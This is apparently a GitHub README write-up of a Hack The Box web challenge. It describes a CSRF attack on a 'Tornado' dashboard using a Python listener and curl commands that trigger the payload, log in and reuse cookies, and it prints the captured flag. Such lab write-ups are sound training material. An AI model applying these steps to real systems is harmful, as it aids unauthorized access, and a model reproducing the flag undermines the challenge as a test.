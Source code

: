 # HTB_TornadoService
Hack The Box Challenge (Tornado Web Service)

# CHALLENGE DESCRIPTION
You have found a portal of the recently arising tornado malware, it appears to have some protections implemented but a bet was made between your peers that they are not enough. Will you win this bet?

# Tornado Dashboard
http://94.237.49.36:49193/

![image](https://github.com/user-attachments/assets/f981f194-77b2-4782-8d93-493925ac98ad)


# Tools Used
- BurpSuite
- CURL
- Python for Web Server listener
- OS: Kali Linux

# Attempts
- 1st Attempt: IP Scanning using BurpSuite. #### UNSUCCESSFUL
- 2nd Attempt: SQL Injection. #### UNSUCCESSFUL
- 3rd Attempt: CSRF Attack. # SUCCESSFUL #

# Approach used for CSRF attack
1. Download the configuration files from HTB.

   ![image](https://github.com/user-attachments/assets/b26ef7fd-1109-4f23-959b-fd852996624a)

2. Create a CSRF Payload file.
   Setup http server (Listener) on port 1337

   <code> python -m http.server 1337 </code>

   ![image](https://github.com/user-attachments/assets/d03d0f9b-342a-485b-839a-62045be8b9ed)

3. Trigger CSRF Payload (using CURL)
   Host the HTML file through the browser to trigger the CSRF payload

4. Report Tornado on HTB Server
   
   <code> curl "http://94.237.59.207:47563/report_tornado?ip=127.0.0.1"</code>
   
   ![image](https://github.com/user-attachments/assets/3d9e6c68-62a7-4d40-a623-d15eae28290c)


5. Use CURL commands to automate and to create a random user

   <code>curl -X POST "http://94.237.59.207:47563/login" \
   -H "Content-Type: application/json" \
   -d '{"username": "kittykat", "password": "kittykat"}' \
   -c cookie.txt </code>

6. Extract the cookies to a file (cookie.txt)

   <code>curl -X GET "http://94.237.59.207:47563/stats" -b cookie.txt</code>
   
   ![image](https://github.com/user-attachments/assets/e9622f49-3b04-4177-9ea1-042d86c2d762)


# CAPTURED FLAG
# <code> HTB{s1mpl3_stuff_but_w1th_4_tw15t!} </code>

Submitted flag on Hack The Box
  
![image](https://github.com/user-attachments/assets/232baf85-ba3a-475f-93ef-65023aec4ae9)

Challenge Completed

![image](https://github.com/user-attachments/assets/cc652c48-3e97-4053-b061-de20221c3c7f)
